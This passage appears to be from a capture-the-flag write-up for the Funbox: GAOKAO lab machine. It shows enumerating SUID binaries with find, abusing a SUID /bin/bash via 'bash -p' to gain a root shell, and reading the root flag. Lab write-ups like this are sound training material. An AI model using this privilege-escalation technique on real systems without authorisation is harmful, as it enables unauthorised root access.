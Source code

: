 I then checked for SUID binaries using `find / -perm -4000 2> /dev/null`.

```shellscript
bash-4.4$ find / -perm -4000 2> /dev/null
/bin/bash
/bin/su
/bin/fusermount
/bin/ping
/bin/mount
/bin/umount
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/procmail
/usr/bin/newgidmap
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/at
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

The `/bin/bash` binary had the SUID bit set. I then executed `/bin/bash -p` to obtain a root shell.

```shellscript
bash-4.4$ /bin/bash -p
/bin/bash -p
bash-4.4# id
uid=1002(sarah) gid=1002(sarah) euid=0(root) egid=0(root) groups=0(root),1002(sarah)
```

I navigated to the `/root` directory and retrieved the root flag.

```shellscript
bash-4.4# cd /root
cd /root
bash-4.4# ls
ls
root.flag
bash-4.4# cat root.flag
cat root.flag
  █████▒█    ██  ███▄    █  ▄▄▄▄    ▒█████  ▒██   ██▒     ▄████  ▄▄▄       ▒█████   ██ ▄█▀▄▄▄       ▒█████  ▓██   ▒ ██  ▓██▒ ██ ▀█   █ ▓█████▄ ▒██▒  ██▒▒▒ █ █ ▒░    ██▒ ▀█▒▒████▄    ▒██▒  ██▒ ██▄█▒▒████▄    ▒██▒  ██▒▒████ ░▓██  ▒██░▓██  ▀█ ██▒▒██▒ ▄██▒██░  ██▒░░  █   ░   ▒██░▄▄▄░▒██  ▀█▄  ▒██░  ██▒▓███▄░▒██  ▀█▄  ▒██░  ██▒░▒█░   ▒▒█████▓ ▒██░   ▓██░░▓█  ▀█▓░ ████▓▒░▒██░█▀  ▒██   ██▒   ░ █ █ ▒    ░▓█  ██▓░██▄▄▄▄██ ▒██   ██░▓██ █▄░██▄▄▄▄██ ▒██   ██▒░ ████▓▒░ ▒▒ ░ ░ ░ ░ ░░   ░ ▒░▒░▒   ░   ░ ▒ ▒░ ░░   ░▒ ░     ░   ░   ▒   ▒▒ ░  ░ ▒ ▒░ ░ ░▒ ▒░ ▒   ▒▒ ░  ░ ▒ ▒░  ░ ░    ░░░ ░ ░    ░   ░ ░  ░    ░ ░ ░ ░ ▒   ░    ░     ░ ░   ░   ░   ▒   ░ ░ ░ ▒  ░ ░░ ░  ░   ▒   ░ ░ ░ ▒            ░              ░  ░          ░ ░   ░    ░           ░       ░  ░    ░ ░  ░  ░        ░  ░    ░ ░                                   ░                                                                          You did it ! THX for playing Funbox: GAOKAO !
I look forward to see this screenshot on twitter: @0815R2d2
```

